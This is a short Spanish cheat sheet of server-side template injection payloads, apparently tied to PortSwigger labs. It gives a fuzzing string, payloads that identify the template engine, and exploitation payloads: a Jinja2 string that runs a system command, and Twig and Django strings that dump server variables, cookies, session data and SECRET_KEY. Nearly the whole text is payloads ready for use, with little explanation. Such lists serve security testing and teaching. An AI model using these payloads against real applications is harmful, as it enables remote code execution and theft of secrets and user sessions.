

PortSwigger
SSTI
Jinja2
Twig
Django
RCE
SSTI — Server-Side Template Injection
Detección e identificación del motor de plantillas mediante fuzzing y payloads de fingerprinting.
Fuzzear caracteres especiales para detectar SSTI
Inyectar esta cadena para provocar errores de parsing y confirmar inyección:
Fuzzing string
${{<%[%'"}}%\
Payloads de identificación del motor:
Fingerprinting payloads
<%= 7*7 %> # ERB (Ruby)
${{7*7}} # Smarty
${7*7} # Freemarker / Mako
a{*coment*}b # Smarty
${"z".join("ab")} # Jinja2 / Python
{{7*7}} # Jinja2 / Twig
{{7*'7'}} # Jinja2 → 7777777 | Twig → 49Jinja2 payloads
Python / Jinja2
${{config}}
${{config.__dict__}}
${{config.from_object(os)}}
${{config.from_object(os.system('ls'))}}Twig payloads
PHP / Twig
{{dump(app.request.server.all)}}
{{dump(app.request.headers)}}
{{dump(app.request.cookies)}}
{{dump(app.request.files)}}Django payloads
Python / Django
{{settings}}
{{settings.SECRET_KEY}}
{{request.META}}
{{request.session}}